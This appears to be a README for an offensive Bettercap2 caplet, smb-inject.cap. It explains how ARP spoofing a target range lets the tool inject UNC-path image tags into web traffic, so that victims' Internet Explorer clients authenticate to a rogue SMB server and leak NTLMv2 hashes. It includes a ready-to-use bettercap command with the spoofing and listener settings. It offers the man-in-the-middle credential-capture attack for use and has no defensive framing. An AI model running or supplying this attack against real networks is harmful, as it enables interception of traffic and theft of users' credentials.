 # Bettercap2 Caplets
### smb-inject.cap

__Description__: _Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes_

__Related JS__: smb-inject.js

__Usage__:

`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`

__smb.listener.ip__ is the IP to your rogue SMB server

__arp.spoof.targets__ is the IP (single or CIDR notation) of the range to poison/spoof

